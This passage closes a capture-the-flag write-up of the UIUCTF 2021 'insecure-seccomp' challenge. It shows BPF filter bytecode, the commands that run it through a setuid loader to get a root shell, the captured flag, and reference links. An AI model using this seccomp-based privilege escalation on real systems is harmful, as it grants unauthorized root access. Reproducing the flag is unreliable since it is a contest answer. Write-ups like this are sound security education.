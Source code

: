 Now when you compile+run `starter`, you should get your output as BPF
bytecode:

```  
root@nomu:~/D/u/insecure_seccomp  
❯❯ ./starter  
5  
0020 00 00 00000000  
0015 00 01 0000010d  
0006 00 00 00050005  
0006 00 00 7fff0000  
0006 00 00 00000000  
```

Now when you send this on the remote service, while running `exploit_me`:

```  
/usr/local/bin $ ./seccomp_loader ./exploit_me  
5  
0020 00 00 00000000  
0015 00 01 0000010d  
0006 00 00 00050005  
0006 00 00 7fff0000  
0006 00 00 00000000  
/usr/local/bin # cat /flag  
uiuctf{seccomp_plus_new_privs_equals_inseccomp_e84609bf}  
/usr/local/bin #

```

You will get a root shell, and then flag.

# Closing thoughts

Kernel is very complicated. Bold statements only here xD.

This was a pretty cool challenge, X3eRo0 and I both learned alot about BPF. I
hope you did too.

Another lesson: Always `ls -la` to check whether a binary is setuid, and don't
just assume that every shell will have fancy syntax highlighting for you :P
(this confused me for a while, I couldnt spot the setuid binary, lol).

# References

 - https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter  
 - https://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html  
 - https://linux.die.net/man/2/openat  
 - https://man7.org/linux/man-pages/man7/capabilities.7.html  
 - http://bricktou.cn/include/linux/schedtask_no_new_privs_en.html  
 - https://elixir.bootlin.com/linux/v5.12.14/source/include/linux/sched.h#L1646  

Original writeup (https://github.com/volticks/CTF-
Writeups/tree/main/UIUCTF%2021/insecure-seccomp).